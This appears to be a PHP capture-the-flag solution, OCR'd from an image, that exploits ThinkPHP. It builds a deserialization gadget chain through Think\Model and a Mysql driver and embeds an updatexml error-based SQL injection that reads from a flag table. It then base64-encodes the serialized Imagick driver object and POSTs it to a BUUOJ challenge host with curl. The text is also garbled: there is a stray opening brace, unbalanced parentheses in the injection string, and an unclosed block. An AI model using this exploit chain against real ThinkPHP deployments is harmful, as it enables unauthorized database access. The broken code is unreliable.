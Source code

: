 ```php
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                "table" => "mysql.user where  1=updatexml(1,concat(0x7e,user(),31) from test.flag),0x7e),1)#",
                "where" => "1=1"
            );
        }
    }
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));


$curl = curl_init();
curl_setopt_array($curl, array(
    CURLOPT_URL => "http://6382172d-0bab-4e87-b434-7d711efad721.node3.buuoj.cn/",
    CURLOPT_RETURNTRANSFER => true,
    CURLOPT_ENCODING => "",
    CURLOPT_MAXREDIRS => 10,
    CURLOPT_TIMEOUT => 3,
    CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
    CURLOPT_CUSTOMREQUEST => "POST",
    CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
    CURLOPT_HTTPHEADER => array(
        "Postman-Token: 348e180e-5893-4ab4-b1d4-f570d69f228e",
        "cache-control: no-cache"
    ),
));
$response = curl_exec($curl);
$err = curl_error($curl);
curl_close($curl);
if ($err) {
    echo "cURL Error #:" . $err;
} else {
    echo $response;
}
}
```
